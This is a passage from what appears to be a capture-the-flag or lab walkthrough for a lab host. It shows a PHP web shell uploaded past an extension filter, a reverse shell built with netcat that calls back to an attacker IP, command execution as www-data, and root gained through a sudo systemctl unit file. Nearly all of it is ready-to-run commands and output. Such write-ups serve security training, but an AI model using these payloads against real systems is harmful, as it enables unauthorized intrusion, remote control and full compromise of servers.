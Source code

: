 **Command/Code:**
```bash
# Test various extensions
echo "<?php system(\$_GET['cmd']); ?>" > shell.php5
curl -X POST -F "file=@shell.php5" http://10.10.10.10/internal/upload.php
```

**Output:**
```
File uploaded successfully!
```

### Step 5: Reverse Shell
Create a PHP reverse shell and upload it.

**Command/Code:**
```bash
# Create reverse shell
echo '<?php system("nc -e /bin/bash 10.10.14.2 4444"); ?>' > shell.php5
curl -X POST -F "file=@shell.php5" http://10.10.10.10/internal/upload.php
```

### Step 6: Execute Shell
Access the uploaded shell to gain command execution.

**Command/Code:**
```bash
curl "http://10.10.10.10/internal/uploads/shell.php5?cmd=id"
```

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Step 7: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
find / -perm -4000 2>/dev/null
sudo -l
```

**Output:**
```
/usr/bin/systemctl
```

### Step 8: Root Access
Use systemctl to escalate privileges.

**Command/Code:**
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
